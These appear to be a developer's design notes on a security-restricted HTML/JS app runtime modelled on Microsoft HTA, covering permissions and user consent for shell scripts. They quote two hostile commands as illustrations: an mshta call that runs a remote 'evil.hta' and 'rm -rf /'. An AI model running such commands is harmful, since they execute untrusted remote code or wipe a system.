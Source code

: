 ## Aww app will no longer be a generic runtime for HTML/JS apps 2023-03-27
Being a generic runtime for HTML/JS apps is a bad idea. Instead webview/webview based
apps will be more specific and coded in C++.
All JavaScript files will be statically embedded in C++ code.


## Aww app disabled 2023-01-01

So, I don't really know what to do next with aww app, regarding to security features and will disable it for now with a feature flag `ALLOW_AWW_APP`



## Aww app design considerations



Aww App is a tool, similar to Microsoft HTA (HTML Application). Which allows to write simple apps in HTML and JScript and VBScript and execute them to perform some admin actions... on... local server... local company Active Directory/Domain Server. These applications not only had full access to all system configuration, but also... this was very convenient, you could run HTA from web... like mshta http://example.com/evil.hta

That mode had tiny security issues. Tiny, because there were no security there, so the technology got deprecated.

Sad... that was a really cool idea to provide a GUI alternative for admin scripts.

## aww app

Probably should not allow doing some harmful things for the app...

And it should be more advanced then a regular local html file. Something in the middle between HTA Superpowers and restricted local HTML.

What I think it should have:

- managed and restricted file access, for instance, the application can read files only from specific folder.
- explicit permissions, defined in appmanifest.json
- the app should not be able to harm the system: run unknown executables, overload CPU, overflow disk with garbage.

We may allows Open file and Save file triggered by user interactions, and it should be explicit which files the app reads and writes.

## Companion script

This could be very useful and dangerous to allow aww app running shell scripts.

This definitely should be an explicit action and require user consent.



## Source code

No JavaScript minification is allowed, this should be clear source code.

## Consent for shell scripts

The application developer must describe the purpose of the script in manifest, and `aww app` must ask users permission.

For instance:

The app wants to run:

- shell command `rm -rf /`  to remove all system files?













